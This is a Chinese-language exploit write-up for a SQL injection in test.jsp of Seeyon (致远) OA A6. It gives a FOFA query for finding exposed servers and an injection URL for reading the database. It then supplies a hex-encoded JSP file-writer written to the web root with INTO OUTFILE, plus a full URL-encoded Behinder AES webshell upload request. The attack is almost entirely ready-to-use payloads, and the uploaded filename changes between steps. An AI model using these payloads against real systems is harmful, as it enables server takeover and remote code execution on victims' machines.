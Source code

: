 # 

# 致远OA A6 test.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```

![image-20220520153021139](./images/202205201530175.png)

返回了当前使用的数据库, 要想写入shell需要知道写入的路径

![image-20220520153030730](./images/202205201530762.png)

这里得到路径 `D:\Program Files\UFseeyon\OA\mysql\bin..\`

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp%27
```

![image-20220520153102550](./images/202205201531630.png)

显示上图则上传成功，访问 test_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎

![image-20220520153118107](./images/202205201531199.png)

```
POST /yyoa/peiqi_upload.jsp?f=testwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

连接木马

![image-20220520153147280](./images/202205201531378.png)
